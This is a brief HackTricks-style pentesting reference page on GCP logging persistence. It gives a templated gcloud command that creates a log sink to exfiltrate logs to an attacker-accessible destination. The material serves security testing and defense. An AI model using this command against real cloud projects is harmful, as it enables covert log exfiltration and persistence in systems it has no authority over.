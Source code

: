 # GCP - Logging Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Logging

Find more information about Logging in:

{{#ref}}
../gcp-services/gcp-logging-enum.md
{{#endref}}

### `logging.sinks.create`

Create a sink to exfiltrate the logs to an attackers accessible destination:

```bash
gcloud logging sinks create <sink-name> <destination> --log-filter="FILTER_CONDITION"
```

{{#include ../../../banners/hacktricks-training.md}}





